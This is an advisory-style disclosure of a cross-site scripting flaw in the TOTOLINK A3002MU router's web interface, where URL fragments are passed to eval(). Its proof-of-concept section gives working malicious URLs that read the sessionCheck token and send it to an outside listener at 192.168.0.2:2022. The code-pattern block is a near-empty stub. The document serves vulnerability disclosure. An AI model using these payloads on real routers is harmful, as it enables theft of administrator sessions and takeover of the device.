





# TARGET

**Product:** TOTOlink A3002MU
 **Model:** A3002MU AC1200 Giga Wireless Router
 **Vendor:** TOTOLINK
 **Official Website:** https://www.totolink.net/
 **Firmware Version:** Hh-B20211125.1046

# BUG TYPE

**Cross-Site Scripting Vulnerability (XSS)**

# Abstract

An XSS vulnerability exists in the TOTOlink A3002MU router. The affected web pages read content from the URL fragment and pass it into JavaScript execution without sufficient validation or escaping. A remote attacker can craft a malicious URL that executes attacker-controlled script in the browser context of an authenticated user, potentially exposing the session identifier or enabling further sensitive actions.

# Details

The affected pages were analyzed by reviewing their front-end JavaScript. The page logic reads the portion of the URL after `#` and passes it to `eval()` while the `sessionCheck` token is present in the DOM. Because the fragment content is attacker-controlled, visiting a malicious URL can execute arbitrary JavaScript in the management interface context.

Relevant code patterns observed during analysis include:

```c
eval() 函数执行
```



# POC

The crafted request or malicious URL used during verification is shown below:

```text
portfw.htm：
http://192.168.0.1/portfw.htm#location.href='http://192.168.0.2:2022/'+document.getElementById('sessionCheck').value
reboot.htm：
http://192.168.0.1/reboot.htm#setTimeout(function(){location.href='http://192.168.0.2:2022/'+document.getElementById('sessionCheck').value},100)
arptbl.htm：
http://192.168.0.1/arptbl.htm#alert(1)
```

Before the attack, the router management interface is accessible and operating normally.

The malicious request or URL is sent to the target device during verification.

After the victim opens the malicious URL, the attacker receives the session identifier, confirming the XSS impact.








